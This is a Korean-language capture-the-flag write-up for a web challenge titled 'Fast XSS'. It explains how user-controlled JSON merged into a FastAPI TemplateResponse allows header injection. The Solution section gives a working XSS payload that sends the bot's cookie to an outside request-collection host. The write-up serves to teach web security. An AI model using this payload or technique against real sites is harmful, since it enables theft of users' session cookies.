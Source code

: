 # Fast XSS
## Overview
```
version: "3"
services:
  web:
    build: ./deploy/web
    restart: unless-stopped
    ports:
      - 8000:8000
  bot:
    build: ./deploy/bot
    restart: unless-stopped
    ports:
      - 1337:1337
    environment:
      - FLAG=DH{FLAG}
```
fastapi 서버가 8000 포트로, express 서버가 1337 포트로 돌아가고 있다.

`./deploy/web/app.py:`
```py
@app.get("/")
async def index(request: Request, data: str = '{"context": {"user": "Guest"}}'):
    try:
        data = json.loads(data)
    except:
        data = {"context": {"user": "Guest"}}
    context = {"name": "index.html", "request": request}|data
    return templates.TemplateResponse(**context)
```
사용자가 `data`를 조작할 수 있기 때문에 `context = {"name": "index.html", "request": request}|data`에서 context dictionary의 값을 조작할 수 있다.
조작할 수 있는 값들은 아래의 TemplateResponse 정의를 확인하였다.
```
TemplateResponse(
    request: Request,
    name: str,
    context: Optional[Dict[str, Any]] = None,
    status_code: int = 200,
    headers: Optional[Mapping[str, str]] = None,
    media_type: Optional[str] = None,
    background: Optional[BackgroundTask] = None,
) -> _TemplateResponse
```
name은 파일이 index.html밖에 존재하지 않기 때문에 제외했고, headers를 통해 header injection이 가능해 보였다.

`./deploy/bot/bot.mjs:`
```js
  try {
    const page = await context.newPage();
    await page.setCookie({
      name: "FLAG",
      value: FLAG,
      domain: APP_HOST,
      path: "/",
    });
    await page.goto(APP_URL + path);
    await sleep(5 * 1000);
    await page.close();
  } catch (e) {
    console.error(e);
  }
```
cookie에 flag를 설정하고 사용자에게 입력받은 path를 이용해 web 컨테이너 페이지로 이동한다.
해당 path 값을 문제의 제목처럼 XSS payload로 구성하여 쿠키 값을 얻어내면 될 것 같았다.

## Solution
web 컨테이너에서 data 인자의 header injection을 통해 XSS 공격을 진행할 수 있다:
```
http://127.0.0.1:8000/?data={%22headers%22:%20{%22\n%3Ch1%3Einjected%3C/h1%3Etest%22:%20%22%22}}
```
`This will show:`
![](https://dreamhack-media.s3.amazonaws.com/attachments/cddc2d98754fbd627171eda9f26c8568781018eeb27be1b6fea570638b580ab4.png)

CSP가 따로 적용되어 있지 않기 때문에 javascript payload를 바로 전송하면 되고,
bot 컨테이너에서 web 컨테이너로 XSS 공격을 진행하여 bot 컨테이너에서 XSS 공격을 통해 cookie 값을 공격자 서버로 전송하면 된다:
```
{"headers": {"\n<script>location.replace('https://en0p6pk0whwo3e.x.pipedream.net/?cookie=test'.replace('test', document.cookie))</script>": ""}}
```
![](https://dreamhack-media.s3.amazonaws.com/attachments/9d8a133f921218a227a02193fb6f274814bd0c5b6353deb722e3e678f184e56a.png)